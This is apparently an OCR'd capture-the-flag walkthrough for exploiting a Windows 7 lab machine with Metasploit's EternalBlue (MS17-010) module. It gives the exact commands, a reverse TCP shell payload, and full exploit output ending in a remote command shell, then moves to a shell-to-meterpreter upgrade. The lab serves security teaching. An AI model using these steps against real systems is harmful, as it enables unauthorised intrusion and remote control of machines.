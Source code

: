 Interact with a module by name or index. For example info 5, use 5 or use exploit/windows/smb/smb_doublepulsar_rce

Show options and set the one required value. What is the name of this value? (All caps for submission)
msf6 > use 2 [*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp

msf6 exploit(windows/smb/ms17_010_eternalblue) > set MY_IP RHOSTS => MY_IP

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target.
Enter the following command and press enter:

set payload windows/x64/shell/reverse_tcp

With that done, run the exploit!
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[] Started reverse TCP handler on 10.2.60.96:4444 [] 10.10.233.113:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check [+] 10.10.233.113:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit) [] 10.10.233.113:445 - Scanned 1 of 1 hosts (100% complete) [] 10.10.233.113:445 - Connecting to target for exploitation. [+] 10.10.233.113:445 - Connection established for exploitation. [+] 10.10.233.113:445 - Target OS selected valid for OS indicated by SMB reply [] 10.10.233.113:445 - CORE raw buffer dump (42 bytes) [] 10.10.233.113:445 - 0x00000000 57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73 Windows 7 Profes [] 10.10.233.113:445 - 0x00000010 73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76 sional 7601 Serv [] 10.10.233.113:445 - 0x00000020 69 63 65 20 50 61 63 6b 20 31 ice Pack 1
[+] 10.10.233.113:445 - Target arch selected valid for arch indicated by DCE/RPC reply [] 10.10.233.113:445 - Trying exploit with 12 Groom Allocations. [] 10.10.233.113:445 - Sending all but last fragment of exploit packet [] 10.10.233.113:445 - Starting non-paged pool grooming [+] 10.10.233.113:445 - Sending SMBv2 buffers [+] 10.10.233.113:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer. [] 10.10.233.113:445 - Sending final SMBv2 buffers. [] 10.10.233.113:445 - Sending last fragment of exploit packet! [] 10.10.233.113:445 - Receiving response from exploit packet [+] 10.10.233.113:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)! [] 10.10.233.113:445 - Sending egg to corrupted connection. [] 10.10.233.113:445 - Triggering free of corrupted buffer. [] Sending stage (336 bytes) to 10.10.233.113 [] Command shell session 1 opened (10.2.60.96:4444 -> 10.10.233.113:49214) at 2021-02-01 23:22:21 -0500 [+] 10.10.233.113:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-= [+] 10.10.233.113:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-= [+] 10.10.233.113:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation. All rights reserved.

Escalate
If you haven’t already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit.
What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)

msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter

Matching Modules
Name Disclosure Date Rank Check Description
0 post/multi/manage/shell_to_meterpreter normal No Shell to Meterpreter Upgrade

Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter
